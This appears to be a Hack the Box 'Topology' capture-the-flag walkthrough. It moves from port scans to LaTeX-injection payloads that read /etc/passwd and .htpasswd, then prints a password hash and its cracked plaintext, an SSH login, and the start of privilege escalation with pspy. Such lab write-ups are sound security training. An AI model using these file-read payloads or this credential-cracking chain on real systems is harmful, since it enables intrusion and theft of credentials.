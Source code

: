 ```
rustscan -a 10.10.11.217 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2848c182-a035-407c-8167-78b2790aa9ba)

```
nmap -Pn -sC -sV -p 22,80 10.10.11.217
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/986ea52b-7b18-4807-89ce-f80469c6a13f)

HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/1d3e4cab-23f5-4ea8-a735-21843a42d7f9)

Latex Equation Generator
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ad08b5ff-4423-4b4d-812a-11baf54aad51)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c11f8c7b-5fe3-4090-80de-432c5c73cb73)

Subdomain
```
http://latex.topology.htb/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/23789ad6-aaf8-4b16-8d3c-a1cd682b99ad)

Latex Injection LFI
```
$\lstinputlisting{/etc/passwd}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/42f0bed3-ee29-42cd-834c-155489d60216)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9f36e1dd-a7ec-4958-8954-be457431bdb2)
```
$\lstinputlisting{/var/www/dev/.htaccess}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4ae5a043-96cc-4fec-885d-ad5e9fc40c3e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/7a59670b-97b4-46fe-b381-f61626e7eb93)
```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/48421c5f-fc30-48c0-a114-0c6e1b7667f8)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f59ad50d-05ab-42ff-83a5-8f8cb3e56d44)
```
Credentials:
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

Crack Password
```
john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt  
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4c35748f-271b-4da8-bca4-3aeb6b61b715)
```
Cracked Password: calculus20
```

SSH
```
ssh vdaisley@10.10.11.217
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e79458fc-bfad-4c93-b993-6c9bf105d98a)

Privilege Escalation

Upload PSPY
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/de0a9d35-057a-484b-9013-771c9864fb17)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/70fad80b-5c24-4e2d-81d4-9b0233e4883e)
